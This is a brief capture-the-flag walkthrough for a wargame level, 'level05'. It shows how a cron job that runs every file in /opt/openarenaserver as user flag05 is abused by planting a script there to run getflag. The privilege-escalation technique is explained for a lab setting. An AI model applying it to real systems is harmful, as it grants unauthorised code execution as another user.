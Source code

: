 <h1 align="center"> level05 </h1>

```shell
find / -user flag05 2> /dev/null
```

We have ```/usr/sbin/openarenaserver```

```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

And in the mail, location given by the env var: ```MAIL=/var/mail/level05```:
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

It's a cron job, who execute the script above every 2 minutes.

The script execute every file in the /opt/openarenaserver folder and delete it. So we need to save the result to a file.

```shell
echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag
```

We wait a little and we have the getflag code, who give us access to the next level, it work !
